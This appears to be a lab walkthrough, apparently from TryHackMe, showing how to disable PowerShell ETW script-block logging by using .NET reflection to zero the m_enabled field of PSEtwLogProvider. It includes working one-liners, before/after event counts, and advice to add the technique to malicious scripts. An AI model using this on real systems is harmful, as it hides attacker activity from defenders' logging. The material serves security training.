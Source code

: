 In a PowerShell session, most .NET assemblies are loaded in the same security context as the user at startup. Since the session has the same privilege level as the loaded assemblies, we can modify the assembly fields and values through PowerShell reflection. From [O'Reilly](https://www.oreilly.com/library/view/professional-windows-powershell/9780471946939/9780471946939_using_.net_reflection.html) , "Reflection allows you to look inside an assembly and find out its characteristics. Inside a .NET assembly, information is stored that describes what the assembly contains. This is called metadata. A .NET assembly is, in a sense, self-describing, at least if interrogated correctly."

In the context of **ETW** (**E**vent **T**racing for **W**indows), an attacker can reflect the ETW event provider assembly and set the field `m_enabled` to `$null`


At a high level, PowerShell reflection can be broken up into four steps:

1. Obtain .NET assembly for `PSEtwLogProvider`.
2. Store a null value for `etwProvider` field.
3. Set the field for `m_enabled` to previously stored value.

At step one, we need to obtain the type for the `PSEtwLogProvider` assembly. The assembly is stored in order to access its internal fields in the next step.
```powershell
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```

At step two, we are storing a value ($null) from the previous assembly to be used.  

```powershell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

At step three, we compile our steps together to overwrite the `m_enabled` field with the value stored in the previous line.

```powershell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.

To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command.

[Before]
```powershell
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
7
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
11
```
[After]
```powershell
PS C:\Users\Administrator>.\reflection.ps1 

PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count 18 

PS C:\Users\Administrator> whoami 
Tryhackme\administrator 

PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count 18

```
